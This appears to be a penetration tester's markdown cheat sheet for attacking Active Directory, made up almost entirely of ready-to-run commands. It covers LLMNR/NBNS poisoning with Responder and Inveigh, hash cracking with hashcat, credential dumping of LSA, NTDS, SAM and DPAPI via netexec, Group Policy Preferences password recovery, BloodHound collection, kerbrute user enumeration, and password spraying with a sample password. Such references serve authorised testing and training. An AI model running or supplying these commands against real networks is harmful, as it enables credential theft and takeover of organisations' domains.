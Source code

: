 ## AD Enumeration

### Port Scanning

```bash
# tcp
nmap $TARGET -p- -T4 -vv
nmap $TARGET -p $PORT -T4 -vv -oA TARGET_full_tcp_scan
nmap $TARGET -sU --min-rate=10000 -sV -oA TARGET_udp_scan
# udp
udpx -t $TARGET -c 128 -w 1000
```

### Responder
```bash
responder.py -I $INTERFACE
responder.py -I $INTERFACE --lm
responder.py -I $INTERFACE -w
responder.py -I $INTERFACE -A
## Cracking using hashcat
hashcat -m 5600 file /path/2/rockyou.txt
```

```powershell
Import-Module .\Inveigh.ps1
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

### NETEXEC

```bash
nxc smb
  -u '' -p ''
  -u 'had' -p ''
  -u 'guest' -p ''
  --local-auth
  --users
  --rid-brute
  --shares
  -M spider_plus -o DOWNLOAD_FLAG=True
  --lsa --ntds --sam --dpapi
  -M gpp_password
  -M enum_trusts
  # crack the result with 
  gpp-decrypt $PASSWORD

nxc ldap
  --bloodhound
  --pass-pol
  -M get-desc-users
nxc rdp
  --local-auth
nxc winrm
  --local-auth
nxc mssql
  --local-auth
```

### Enum4linux-ng
```bash
enum4linux-ng -A "$TARGET"
```

### Bloodhound
```bash
bloodhound-ce.py --zip -c All -d "$DOMAIN" -u "$USER" -p "$PASSWORD" -ns "$DC_IP"
  -dc "$FQDN"
  --dns-tcp
  --dns-timeout 40
Sharphound.exe -c All -d "$DOMAIN"
```

### Rpcclient
```bash
rpcclient -U "" -N $TARGET
rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
querydominfo
enumdomusers
```

### Kerbrute
```bash
kerbrute userenum -d $DOMAIN --dc $DC_IP /path/2/userslist.txt 
kerbrute passwordspray -d $DOMAIN --dc $DC_IP /path/2/userslist.txt /path/2/passwords_list.txt
```

### PasswordSpray
```powershell
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

